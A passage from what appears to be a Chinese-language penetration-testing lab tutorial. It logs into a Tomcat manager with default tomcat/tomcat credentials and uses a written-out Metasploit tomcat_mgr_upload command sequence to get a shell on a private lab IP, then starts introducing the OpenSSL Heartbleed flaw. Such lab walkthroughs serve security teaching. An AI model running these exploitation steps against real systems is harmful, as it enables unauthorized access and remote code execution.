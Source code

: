 好吧:) 我们找到了用户名密码均为tomcat

![image-20221010155947220](../../images//image-20221010155947220.png)

继续使用msf获取shell

```
use exploit/multi/http/tomcat_mgr_upload
set rhosts 192.168.0.62
set rport 8180
set target /manager/html
set HttpUsername tomcat
set HttpPassword tomcat
set target 0
exploit
```

![image-20221010160419301](../../images//image-20221010160419301.png)



## 3 协议类--Heartbleed

### 3.1 漏洞简介

Openssl是一个安全套接字层密码库，囊括主要的密码算法、常用密钥、证书封装管理功能及实现ssl协议。http协议调用了ssl协议,那么他就变成了https。

 OpenSSL Heartbleed模块存在一个BUG，问题存在于ssl/dl_both.c文件中的心跳部分，当攻击者构造一个特殊的数据包，满足用户心跳包中无法提供足够多的数据会导致memcpy函数把SSLv3记录之后的数据直接输出，该漏洞导致攻击者可以远程读取存在漏洞版本的OpenSSL服务器内存中多达64K的数据。

此漏洞允许在正常情况下窃取受用于保护互联网的 SSL/TLS 加密保护的信息。SSL/TLS 为 Web、电子邮件、即时消息 (IM) 和一些虚拟专用网络 (VPN) 等应用程序提供 互联网上的通信安全和隐私。

### 3.2 影响范围

OpenSSL 1.0.2-beta

